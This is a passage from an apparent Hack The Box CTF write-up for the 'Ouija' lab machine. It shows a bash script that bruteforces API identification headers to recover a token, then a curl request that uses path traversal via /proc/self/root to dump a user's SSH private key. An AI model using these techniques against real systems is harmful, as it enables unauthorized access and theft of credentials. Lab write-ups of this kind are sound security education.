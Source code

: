 At this point we have the `New signature` field `14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b`, and the `strings` file containing the `New string` from size 1 to 47. We are ready to bruteforce the application. For this, a small bash script is proposed.
```markdown
#!/bin/bash

rm results
touch results

echo "[+] Running stuff..."
for i in $(cat strings)
do
        echo $i >> results
        curl -s ouija.htb:3000/users -H "ihash: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b" -H "identification: $i" >> results
done

token=$(grep "Database" results | cut -d '}' -f2)

echo "[+] Token found: "
echo $token
echo "[+] Length of token: "
echo $token | wc -c
```
Running it we find the authentication token, and its length (note this is not the same as the secret length).

![ouija10](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/77d001a8-98d3-416b-9cd5-af6c40c4bd8e)

Finally, query the `/file/get` API on port 3000 with this token, and browse files in the application file system running on `/proc/self/root` to dump leila's private key, which can be used to login into the host and get the user flag.
```markdown
> curl -X 'GET' \
'http://ouija.htb:3000/file/get?file=.config/bin/process_informations/self/root/home/leila/.ssh/id_rsa' \
-H 'ihash: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b' \
-H 'identification: NjI2Zjc0MzEzYTYyNmY3NDgwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDBmODNhM2E2MTY0NmQ2OTZlM2E1NDcyNzU2NQo='
```

![ouija11](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/44812e01-37ab-41fa-b4ea-d3b3d27e1786)
